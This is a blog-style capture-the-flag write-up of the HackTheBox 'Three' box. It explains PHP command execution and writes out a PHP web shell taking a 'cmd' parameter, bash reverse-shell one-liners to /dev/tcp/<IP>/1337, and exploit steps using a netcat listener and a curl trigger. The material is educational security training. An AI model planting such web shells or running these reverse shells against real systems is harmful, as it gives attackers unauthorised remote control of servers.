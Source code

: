 ```yaml
---
title: 'Obtain a Reverse Shell With PHP and Bash'
description: 'A summary of how to obtain a reverse shell using basic PHP and Bash commands based on HTB Starting Point Tier 1 box "Three"'
pubDate: 'Dec 5 2024'
heroImage: 'blog-placeholder-5.jpg'
---
```


## Obtain a reverse shell by arbitrary command execution in PHP

This article is a high-level summary of the `Three` challenge in HTB Starting Point Tier 1. It covers some basics of the tech involved to help build up an understanding of why the reverse shell exploit works. 

### PHP File
**PHP Script**  
PHP is a general purpose scripting language that can be used to make server-side rendered websites or CLI scripts. A PHP script gets straight into the action by wrapping its code in the `<?php ... ?>` tag. Alternatively, PHP lends itself to web development because a PHP file can simply be a HTML file with an embedded PHP script:
```html
...
<body>
    <?php 
        echo "Hello world";
    ?>
</body>
...
```

**Variables**  
* Variables can be accessed using `$`, e.g. `$myVar`. 
* Global variables can be specified by declaring `global $myVar`
* [Superglobal variables](https://www.php.net/manual/en/language.variables.superglobals.php) exist in every scope throughout a script, such as `$_SERVER`, `$_GET`, `$_POST`, `$_COOKIE`, and a few more. This contains some interesting stuff. I should read up more on this for the future.

**Accessing Query Parameters: `$_GET`, `$_POST`**  
The `$_GET` superglobal contains an associative array (i.e. basically a dictionary) of all URL query parameters passed by a request as seen in the following example. (N.b. `htmlspecialchars` performs HTML encoding so the value is properly rendered on the page).
```php
// $ curl http://example.com?name=Hannes
<?php
    echo htmlspecialchars($_GET["name"]);
?>
```

`$_POST` is very similar, and is used to retrieve variables submitted on a HTTP POST when the content type is `application/x-www-form-urlencoded` or `multipart/form-data`.


**Command Execution**  
PHP can do a lot of things. One such thing is execute commands. There are a few functions that can achieve this in PHP. [This Stack Overflow answer](https://stackoverflow.com/a/39681338) provides a good summary of such commands:

```php
+----------------+-----------------+----------------+----------------+
|    Command     | Displays Output | Can Get Output | Gets Exit Code |
+----------------+-----------------+----------------+----------------+
| system()       | Yes (as text)   | Last line only | Yes            |
| passthru()     | Yes (raw)       | No             | Yes            |
| exec()         | No              | Yes (array)    | Yes            |
| shell_exec()   | No              | Yes (string)   | No             |
| backticks (``) | No              | Yes (string)   | No             |
+----------------+-----------------+----------------+----------------+
```

From the above, `system()` seems like a useful command to be able to execute a command and see the output streamed to the browser or wherever the output is being displayed. Based on all of the above information, it seems we can write a PHP file that will take in a URL query param and execute the command on the server:

```php
<?php
    system($_GET["cmd"]);
?>
```

N.b. after doing some more research, it seems that in other approaches, the `exec()` function is preferred

**Reverse Shell**  
Given all of the above, it seems possible that a reverse shell payload could be written entirely in PHP without the need for a bash script and the need to host the payload somewhere. (I while qualify that statement by saying sometimes it may be useful and perhaps preferred to do such a thing). 

Potential solution number 1 would be put the bash payload in the `cmd` query param. Option number 2 would be to include all of the bash payload in the PHP script, like so:
```php
// Option 1:
// curl http://example.com?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%3CIP%3E%2F1337%200%3E%261

// Option 2:
<?php 
    system("bash -i >& /dev/tcp/<IP>/1337 0>&1")
?>
```

N.b. after doing some more reading online, it seems preferable to change the script. `exec()` may be more flexible for additional scripting. Furthermore, it is preferred to add the `/bin/bash -c` prefix to ensure the command runs in bash. Here is the updated script:
```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP/1337> 0>&1'");
?>
```

There are certainly further options to create a reverse shell in bash. It seems the simple way is to execute a system command.


### Bash script
```bash
bash -i >& /dev/tcp/<IP/1337> 0>&1
```

Reading the [bash manpage](https://www.gnu.org/software/bash/manual/bash.html#Redirections) and looking through some [StackOverflow](https://stackoverflow.com/a/11255498) posts, here is some bonus learning on file descriptor redirects in bash:
* `>` "clobbers" the file (removes the pre-existing content and writes the output of the preceding command to it)
* `&` is used in file descriptor redirections. It is commonly seen in the form `&>` or `>&` (both are equivalent, though the first is preferred) to redirect stdout and stderr to the same location. It is equivalent to `>word 2>&1`. They are probably interchangeable because of some computer history where the latter option was the preferred redirection syntax.

Therefore, going back to the description mentioned in the task: 
* `-i` makes bash interactive
* `>&` redirects stdout and stderr to the proceeding location. i.e. `>& <file>`
* `0>&1` redirects stdin to come from same location as stdout
* `/dev/tcp/<ip>/<port>` is a special file to allow raw TCP connections

So the script is writing all stdin, stdout and stderr of an interactive bash shell to the tcp connection specified. Based on my understanding, the redirection of stdin to the tcp connection isn't necessary, but is useful for us as an attacker to identify what command is being executed on the server (e.g. for debugging purposes).


### Exploit
Bringing together all of the above elements, the exploit was executed by:
1. Obtaining arbitrary command execution via a php script
2. Creating a bash script that would write all its stdin, stdout and stderr content to a tcp connection to our machine
3. Setting up a listener on our device using netcat
4. Setting up a http server to serve the reverse-shell bash script
5. Invoking the bad php page to retrieve and execute the bash script (via a curl request)